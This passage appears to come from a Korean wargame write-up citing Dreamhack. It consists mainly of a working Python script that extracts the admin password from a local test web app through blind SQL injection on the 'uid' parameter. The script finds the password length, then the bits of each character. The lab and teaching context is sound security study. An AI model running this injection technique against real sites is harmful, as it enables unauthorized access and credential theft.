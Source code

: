 ## 최종 익스플로잇
Figure7 Final Exploit

```python
Figure 7. Final Exploit

from requests import get
host = "http://localhost:5000"
password_length = 0
while True:
    password_length += 1
    query = f"admin' and char_length(upw) = {password_length}-- -"
    r = get(f"{host}/?uid={query}")
    if "exists" in r.text:
        break
print(f"password length: {password_length}")
password = ""
for i in range(1, password_length + 1):
    bit_length = 0
    while True:
        bit_length += 1
        query = f"admin' and length(bin(ord(substr(upw, {i}, 1)))) = {bit_length}-- -"
        r = get(f"{host}/?uid={query}")
        if "exists" in r.text:
            break
    print(f"character {i}'s bit length: {bit_length}")
    
    bits = ""
    for j in range(1, bit_length + 1):
        query = f"admin' and substr(bin(ord(substr(upw, {i}, 1))), {j}, 1) = '1'-- -"
        r = get(f"{host}/?uid={query}")
        if "exists" in r.text:
            bits += "1"
        else:
            bits += "0"
    print(f"character {i}'s bits: {bits}")
    password += int.to_bytes(int(bits, 2), (bit_length + 7) // 8, "big").decode("utf-8")
print(password)
```

* * * 

## Reference
Reference : https://dreamhack.io